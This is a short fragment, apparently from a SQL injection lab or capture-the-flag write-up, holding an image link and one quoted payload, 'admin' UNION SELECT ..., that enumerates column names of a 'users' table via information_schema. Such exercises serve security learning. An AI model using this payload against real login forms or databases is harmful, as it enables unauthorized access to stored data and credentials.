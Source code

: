 > `admin' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';`